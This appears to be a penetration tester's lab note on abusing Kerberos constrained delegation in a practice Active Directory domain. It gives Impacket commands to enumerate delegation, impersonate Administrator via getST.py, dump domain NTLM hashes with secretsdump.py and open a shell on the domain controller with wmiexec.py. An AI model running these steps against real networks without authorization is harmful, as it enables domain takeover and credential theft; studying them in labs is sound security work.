 **Constrained Delegation** is a security feature in Active Directory environments where an attacker targets specific services. It works by allowing a service to impersonate users, but only to access predefined services using their Kerberos tickets (TGS—Ticket Granting Service).

### Enumeration

#### Impacket

```bash
findDelegation.py NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```


![[Pasted image 20240816142743.png]]

#### Bloodhound

![[Pasted image 20240816150123.png]]

### The Attack

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```


```bash
export KRB5CCNAME=./Administrator.ccache
```

```bash
klist
Ticket cache: FILE:./Administrator.ccache
Default principal: Administrator@north.sevenkingdoms.local

Valid starting     Expires            Service principal
16/08/24 14:28:20  17/08/24 00:28:20  CIFS/winterfell@NORTH.SEVENKINGDOMS.LOCAL
```

Dump Password Hashes:

```bash
secretsdump.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell -just-dc-ntlm
```

Or log into the DC

```bash
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```